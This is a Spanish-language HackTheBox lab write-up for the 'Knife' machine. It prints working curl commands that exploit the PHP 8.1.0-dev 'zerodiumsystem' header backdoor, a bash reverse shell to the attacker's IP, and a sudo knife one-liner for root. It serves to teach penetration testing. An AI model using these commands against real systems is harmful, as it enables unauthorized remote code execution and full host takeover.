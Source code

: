 ```yaml
---
title: 'Knife'
description: 'Write-Up de la máquina Knife de HackTheBox'
pubDate: 'Jul 03 2025'
image: '/htb/knife/placeholder.png'
heroImage: '/htb/knife/placeholder.png'
private: false
category: 'writeups'
tags: ['htb', 'web', 'linux', 'old version vulnerability', 'php', 'backdoor', 'privilege escalation', 'gtfobins']
---
```


## Fase de reconocimiento
### Puertos y servicios
Comenzamos con un escaneo con `nmap` para identificar los servicios, con la flag `-sV` para detectar versiones y `-sC` para ejecutar los scripts por defecto.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Vemos que el servicio http está ejecutando Apache httpd 2.4.41, que es una versión relativamente antigua y podría tener vulnerabilidades conocidas. También vemos que el servicio SSH está disponible.

Antes de acceder al servicio web, podemos usar `whatweb` para identificar las tecnologías utilizadas en la web:

```bash
whatweb http://10.129.209.13/

http://10.129.209.13 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.209.13], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Vemos en los encabezados que la versión que se está ejecutando de PHP es una versión de desarrollo, `8.1.0-dev`, lo cual es inusual y podría ser una pista de que el sitio es vulnerable a alguna explotación.

Luego de buscar en google por esta versión, podemos ver que tiene un backdoor, el cual tras enviar un header específico, nos permite ejecutar código PHP remotamente.

## Fase de explotación
### Explotando el backdoor
Para explotar el backdoor, podemos usar `curl` para enviar una petición HTTP con el header específico. El header que debemos enviar es `User-Agentt` con el siguiente valor `zerodiumsystem()`, por lo cual podemos usar el siguiente comando para verificar:

```bash
curl -s -H "User-Agentt: zerodiumsystem('whoami');" http://10.129.209.13 | head -n 1
```

Vemos que la respuesta es `james`, un usuario del sistema.

### Accediendo al servidor
Para acceder al servidor, podemos hacer uso de una reverse shell, por cual ejecutamos los siguientes comandos:
```bash
# Máquina atacante
nc -lvnp 443

# Curl al backdoor
curl -s -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i >& /dev/tcp/10.10.14.230/443 0>&1'\");" http://10.129.209.13
```
Y vemos que tenemos acceso, por lo cual procedemos a realizar nuestro tratamiento de la tty para navegar con mayor facilidad:

```shell
export TERM=xterm; export SHELL=bash; alias ll="ls -lha";
```

y con esto ya podemos ver la flag del usuario en su directorio `home`,


## Fase de escalada de privilegios
### Buscando escalado
A pesar de no tener la constraseña del usuario, podemos probar usar el comando `sudo -l` para verificar a que binarios tiene acceso como root

```bash
james@knife:/$ sudo -l

Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Vemos un binario llamado knife, como el nombre de la máquina, y que puede ejecutarse como root sin necesidad de contraseña

### Obteniendo root
Como sabemos que podemos ejecutar este binario con sudo, podemos buscar en [GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo) si hay alguna forma de obtener root y sí, con el siguiente comando:
```bash
sudo knife exec -E 'exec "/bin/sh"'
```
Y con esto ya tenemos acceso al usuario root y por consecuente a su flag 

## Notas finales
### Versión vulnerable de PHP
Siempre es recomendable revisar los headers de los sitios webs y tambien desde consola, ya que nos mostrará un poco más de información que solo verlos con extensiones como "wappalizer", la cual nos indica la versión de php, pero no el "dev" que ya nos da una pista de que puede ser vulnerable.

## Conclusión
A pesar de que es una máquina fácil, el no ver el header de la versión de PHP nos puede hacer dar vueltas por un largo tiempo, por lo cual siempre es recomendable seguir una estructura e ir revisando paso a paso cada información.